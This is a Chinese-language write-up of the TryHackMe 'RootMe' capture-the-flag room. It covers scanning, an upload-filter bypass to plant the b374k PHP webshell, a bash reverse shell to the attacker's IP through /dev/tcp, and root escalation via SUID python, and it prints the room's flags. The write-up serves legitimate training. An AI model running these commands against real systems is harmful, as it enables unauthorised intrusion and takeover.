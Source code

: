 # RootMe Writeup
上一篇寫英文的，學得好累喔，以後等心情好再來寫英文WPㄅ，這邊就寫中文的(也有可能出現晶晶體或喵喵體)做個紀錄喵。
> 題目網址 : https://tryhackme.com/room/rrootme
目標IP : 10.10.233.205
## Scanning
- 起手式 nmap
    - `nmap -A 10.10.233.205`
    - ![](https://i.imgur.com/mLaLomQ.png)
        - 22 : SSH
            - 7.6p1 有枚舉的漏洞 CVE-2018-15473
            - https://github.com/sriramoffcl/OpenSSH-7.6p1-Exploit-py-/blob/master/45233.py
        - 80 : Apache
            - Apache httpd 2.4.29
- nmap 掃描的同一時間，先打開網頁看看
    - ![](https://i.imgur.com/NejdpQC.png)
    - 網頁起手式 dirsearch
        - `python3 dirsearch.py -u http://10.10.233.205/ -e all`
        - 看起來可能會有趣的路徑
            - `/panel/`
            - `/uploads/`
## 上傳 webshell
- `/panel/` 可以上傳檔案
    - ![](https://i.imgur.com/QOZqOa5.png)
    - 用 Wappalyzer 可以確定他是 PHP
        - ![](https://i.imgur.com/awe80bs.png)
- 上傳個 b374k.php
    - ![](https://i.imgur.com/b6tqtn1.png)
    - 會噴錯，Google翻譯說 `PHP是不允許的！` (葡萄牙文)
- 使用 php 副檔名解析漏洞測試
    - Apache 1.x 2.x 文件解析特性
        - BJ4
    - 測試檔名 `b374k.php.aaa`
        - ![](https://i.imgur.com/ZIsfjUj.png)
            - Google 翻譯 :`文件上傳成功！`
## 使用 Webshell
- 點下面的 `Veja!` 會跳轉到 `http://10.10.233.205/uploads/b374k.php.aaa`
    - ![](https://i.imgur.com/QYfQaPb.png)
    - 使用預設密碼就能進入 shell
## 戳入 Reverse Shell
- Webshell 滿好用的，但是Reverse shell用起來更爽
    - 確認攻擊機 ip 為 10.14.7.198
        - 終端機輸入 `nc -vlk 7877`
    - webshell 的 Terminal 輸入
        - `bash -c 'bash -i >& /dev/tcp/10.14.7.198/7877 0>&1'`
    - 即可順利連上 Reverse shell
        - ![](https://i.imgur.com/iKRzVfo.png)
    - 輸入指令讓他變得更 interactive 一點
        - `python -c 'import pty; pty.spawn("/bin/bash")'`
## 在電腦裡面逛大街
- user.txt
    - ![](https://i.imgur.com/jxS368J.png)
    - `THM{y0u_g0t_a_sh3ll`
## 設法提權
- 使用內建的上傳功能上傳 LinEnum.sh
    - 開權限 `chmod +x LinEnum.sh`
    - 執行，並存到檔案 `./LinEnum.sh | tee meow.txt`
    - 基本上優先注意紅色、橘色的東西
        - ![](https://i.imgur.com/ikR24Co.png)
- 找到有趣ㄉ東西!!
    ```
    [+] Possibly interesting SUID files:
    -rwsr-sr-x 1 root root 3665768 Aug  4  2020 /usr/bin/python
    ```
    - 也就是說 `/usr/bin/python` 可以用 SUID 執行
    - 到 [GTFOBins](https://gtfobins.github.io/) 找 Python 有 SUID 的提權方法
        - `python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`

## 提權成功!!
- ![](https://i.imgur.com/jeFvVXw.png)
- Flag : `THM{pr1v1l3g3_3sc4l4t10n}`
